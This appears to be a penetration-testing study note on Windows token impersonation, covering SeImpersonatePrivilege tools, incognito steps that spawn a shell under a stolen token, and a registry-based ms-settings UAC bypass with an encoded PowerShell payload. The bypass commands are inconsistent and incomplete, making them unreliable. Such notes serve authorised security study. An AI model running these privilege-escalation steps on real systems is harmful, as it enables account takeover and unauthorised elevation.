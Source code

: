 **IMPERSONATION:**

If you want to leverage the "SeImpersonatePrivilege", please refer to this [script](https://github.com/trike33/PEN-300-Code-Snippets/blob/main/Windows%20Credentials/PrintSpooferNet.cs), which is used in conjuction with [SpoolSample](https://github.com/leechristensen/SpoolSample).

However if you want to impersonate already logged in users, you can use [incognito](https://www.offsec.com/metasploit-unleashed/fun-incognito/)(through a meterpreter session) or this [powershell script](https://github.com/clymb3r/PowerShell/tree/master/Invoke-TokenManipulation).

**IMPORTANT NOTE TO TAKE IN MIND WHEN IMPERSONATING LOGONS:**  

What does matter is the logon type used to create the logon token. If a user connects using Network Logon (aka type 3 logon), the computer will not have any credentials for 
the user. Since the computer has no credentials associated with the token, it will not be possible to authenticate off-box with the token. All other logon types
should have credentials associated with them (such as Interactive logon, Service logon, Remote interactive logon, etc).

There are two types of tokens: delegate and impersonate. Delegate tokens are created for ‘interactive’ logons, such as logging into the machine or connecting to it via Remote Desktop. Impersonate tokens are for ‘non-interactive’ sessions, such as attaching a network drive or a domain logon script.
The other great things about tokens? They persist until a reboot. When a user logs off, their delegate token is reported as an impersonate token, but will still hold all of the rights of a delegate token.

TIP: File servers are virtual treasure troves of tokens since most file servers are used as network attached drives via domain logon scripts

(credit to Offsec and clymb3r for this awsome theory explanation).

**Incognito usage:**

Review this link: https://www.offsec.com/metasploit-unleashed/fun-incognito/

But in a nutshell these are the steps to take:

```
1st Migrate to a procces owned by the user we want to impersonate
2nd load incognito
3rd list_tokens -u
4th impersonate_token DEV\\trike   -> for example
5th shell or execute -f cmd.exe -i -t
```

**Invoke-TokenManipulation usage:**

Review its manual specified as comments at the first lines of the script, and this [link](https://clymb3r.wordpress.com/2013/11/03/powershell-and-token-impersonation/) that contains an overview on tokens and Windows authentication, An overview of what the script does, and problems/solutions encountered when building it and a demonstration of the script.

**UAC BYPASS IMPROVEMENT:**

```
1st New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value "powershell.exe -enc SQBFAFg...” -Force

2nd New-ItemProperty -Path HKCU:\Software\Classes\mssettings\shell\open\command -Name DelegateExecute -PropertyType String -Force

3rd 
```
